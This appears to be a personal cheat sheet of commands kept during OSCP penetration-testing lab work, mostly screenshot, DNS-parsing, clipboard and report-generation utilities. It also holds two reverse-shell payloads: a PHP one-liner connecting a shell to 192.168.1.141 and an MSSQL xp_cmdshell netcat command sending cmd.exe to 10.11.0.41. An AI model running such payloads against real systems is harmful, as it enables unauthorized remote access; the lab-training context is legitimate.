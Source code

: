 ## Used on Zico for phpliteadmin
`<?php $sock=fsockopen("192.168.1.141",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>`

# Take screenshots in format YY-MM-DD_HH-MM-SS, e.g. kali-screenshot-20-05-12_20-27-13
`gnome-screenshot -f /mnt/hgfs/vm_share/kali-screenshots/kali-screenshot-$(date +%y-%m-%d_%H-%M-%S).png`

# Take screenshots without screen blinking
`import -window root "/mnt/hgfs/vm_share/kali-screenshots/kali-screenshot-$(date +%y-%m-%d_%H-%M-%S).png"`

# Parse nslookup files
`cat dns-lookups.txt | sort -u | cut -f1 | cut -d\. -f 1,2,3,4| awk -F. '{print $4"."$3"." $2"."$1}' > ipsonly`
`cat dns-lookups.txt | sort -u | cut -f2 | cut -d" " -f 3 | cut -d\. -f1-3 > namesonly`

# Use xp_cmdshell extended procedure to spawn a shell
```
exec xp_cmdshell 'nc.exe -e cmd.exe 10.11.0.41 443'
go;
```

# Determine build information of windows
Based on https://superuser.com/questions/363018/how-do-i-tell-what-version-and-edition-of-windows-is-on-the-filesystem you can find the Windows Version and Service pack in C:\Windows\System32\license.rtf for Windows 7. For Windows XP the information is in C:\Windows\System32\eula.txt. For Windows 10 licenses.rtf does not contain the version. Instead it contains the EULA code, which you can use to find the version online.

# Aliases for screenshots and copying stdout to clipboard
`alias clip="xclip -i -sel p -f | xclip -i -sel c"`

# Mount vm_share
`sudo vmhgfs-fuse -o nonempty -o allow_other .host:/vm_share /mnt/vm_share`

# Generate lab report
`rm OSCP-OS-XXXXX-Lab-Report.pdf ; pandoc OSCP-OS-XXXXX-Lab-Report.md -o OSCP-OS-XXXXX-Lab-Report.pdf --from markdown+yaml_metadata_block+raw_html --template eisvogel --table-of-contents --toc-dept 6 --number-sections --top-level-division=chapter --highlight-style breezedark`
